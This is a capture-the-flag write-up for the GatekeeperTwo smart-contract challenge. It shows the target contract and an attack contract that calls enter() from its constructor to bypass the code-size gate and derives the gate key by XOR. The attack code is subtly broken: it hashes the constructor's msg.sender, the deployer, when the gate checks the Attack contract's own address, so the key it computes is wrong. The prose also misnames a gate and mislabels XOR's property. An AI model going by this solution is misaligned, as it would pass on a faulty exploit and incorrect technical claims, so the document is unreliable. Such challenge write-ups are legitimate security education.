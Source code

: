 **Description**

Just like the first challenge, we have to bypass some checks. Before we get started, keep in mind two main things.
1. Calling a function from another contract in our context's `constructor`, makes it seem to the other contract that our contract has a size of 0.
3. The XOR operation is commutative, meaning that a ^ b = b ^ a and if a ^ b = c it means that c ^ a = b and c ^ b = a.

These two concepts are all we need for this challenge; let's take a look at the code.
- **GatekeeperTwo.sol**
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```
**Attack Scenario**
As we can see, for `gateKeeperOne` it is mandatory to call from a contract; now let's pay attention to the other gate; for `gateTwo` as mentioned before, to bypass this check we only need to call from the constructor; for the third one, it is required to do some calculations, of course not manually; we'll let our contract handle that; our attack contract will look like this.
- **Attack.sol**
```solidity=
contract Attack{
    bytes8 public initial_data;
    uint64 public converted;
    bytes8 public gateToSend;
    address instance = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;

    constructor(){
        initial_data = bytes8(keccak256(abi.encodePacked(msg.sender)));
        converted = uint64(initial_data);
        gateToSend = bytes8(converted ^ type(uint64).max);
        (bool success,) = instance.call(abi.encodeWithSignature("enter(bytes8)",gateToSend));
        require(success, "something went terribly wrong!");
    }

}
```
